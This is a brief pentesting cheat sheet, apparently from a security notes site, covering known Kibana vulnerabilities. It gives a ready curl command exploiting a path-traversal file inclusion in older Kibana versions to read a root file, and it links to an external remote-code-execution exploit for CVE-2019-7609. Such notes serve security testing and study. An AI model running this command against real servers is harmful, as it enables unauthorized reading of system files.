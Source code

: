 ```yaml
---
title: Kibana Pentesting
desc: A proprietary data visualization dashboard software for Elasticsearch. Default port is 5601.
tags: [5601, Kibana]
alts: []
render_with_liquid: false
---
```


## 1. Vulnerabilities

1. **Local File Inclusion (LFI)**

    **Version < 6.4.3 & 5.6.13**

    ```sh
    curl http://<target-ip>:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
    ```

2. **Remote Code Execution (RCE)**

    **Version < 6.6.0**

    Reference: [https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609){:target="_blank"}
